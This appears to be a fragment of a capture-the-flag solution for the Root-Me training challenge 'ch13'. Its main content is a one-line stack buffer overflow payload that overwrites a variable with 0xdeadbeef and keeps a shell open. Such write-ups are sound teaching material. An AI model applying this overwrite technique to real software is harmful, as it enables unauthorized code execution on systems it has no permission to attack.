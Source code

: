 ### run this command on rootme server
```
(python -c 'print "A"*40 + "\xef\xbe\xad\xde\n"'; cat) | ./ch13
```
